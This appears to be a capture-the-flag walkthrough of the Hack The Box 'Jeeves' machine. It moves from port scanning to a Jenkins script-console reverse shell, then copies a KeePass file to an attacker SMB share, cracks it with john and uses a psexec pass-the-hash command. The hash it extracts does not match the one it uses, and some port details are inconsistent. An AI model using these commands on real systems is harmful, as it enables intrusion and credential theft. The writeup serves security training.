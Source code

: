 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png
date: 2023-12-20 09:45:47+07:00
modified: 2023-12-20 09:45:47+07:00
tags:
- Jeeves
- Jenkins
- enum4linux-ng
- Bruteforce
- CTF
- datastream
- smb
- FileTransfer
- PassTheHash
- Keepass
- kdbx
- john
- hashcat
- CME
- Windows
- OSCP
- Writeup
title: Jeeves
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)

 -->

Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.  

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.63`

`nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oA ./nmap/jeeves -Pn`

|Ports|Service
|80| msrpc Microsoft IIS httpd 10.0
|135| msrpc Microsoft Windows RPC
|445| Windows Server 2016 Standard 14393
|50000| Jetty 9.4.z-SNAPSHOT


![](https://photos.squarezero.dev/file/abir-images/Jeeves/1.png)

First I checked SMB server and there was no listing of anonymous sign-in.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/2.png)

I also ran [Enum4linux-NG](https://www.kali.org/tools/enum4linux-ng/) to make sure and it also enumarate RPC for me.



`enum4linux-ng 10.10.10.63 -A -C`


![](https://photos.squarezero.dev/file/abir-images/Jeeves/3.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/4.png)

Next, I visited port 80. It shows AskJeeves search but if something is searched on the toolbar it redirects to `/error.html?` . 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/5.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/6.png)

You can't click or select on the screen. After seeing the source code we can confirm it's just an image [jeeves.PNG]().

![](https://photos.squarezero.dev/file/abir-images/Jeeves/7.png)

Next, I visited port 50000. It gives a 404 error. 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/8.png)



# Foothold

I did a [Dirsearch]() on both ports 80 & 500000 and found `/askjeeves` .

```bash
dirsearch -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Jeeves/9.png)

After visiting the directory we are met with the Jenkins dashboard.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/10.png)

We can go to `/askjeeves/script` and find the script console. We can get a reverse shell using the following script.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/11.png)

I set up Netcat listening on my local machine and after hitting run we can get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/12.png)

I got the user.txt

![](https://photos.squarezero.dev/file/abir-images/Jeeves/13.png)

# Privilege Escalation

After looking for a bit I found `CEH.kdbx` file. This is the [Keepass](https://keepass.info/) db file.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/14.png)

I transferred the file using `impacket-smbserver`. 

Attacker Machine
`sudo impacket-smbserver share -smb2support /tmp/ -user test -password test`

Target Machine
`copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.22\share\`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/15.png)

I tried to open the file with [KeePassXC]() but it was password locked.


I extracted the password hash of the file and then brute-forced it with John().



`keepass2john CEH.kdbx >> hash.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Password → `moonshine1`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/16.png)

I used the credential to open the file and found an NTLM hash.

NTLM → `afbc5bd4b615a60648cec41c6ac92530`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/17.png)

I used [PSEXEC]() to do a [PassTheHash]() attack to get into the admin user.

`psexec.py administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/18.png)

When I went to get the flag I saw a text to find the flag elsewhere.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/19.png)

I checked for hidden files and found `hm.txt:root.txt:$DATA`.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/20.png)

This is an alternative data stream. I the flag using Get-Content .

`powershell (Get-Content hm.txt -Stream root.txt).substring(0,32)`

or `more < hm.txt:root.txt`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/21.png)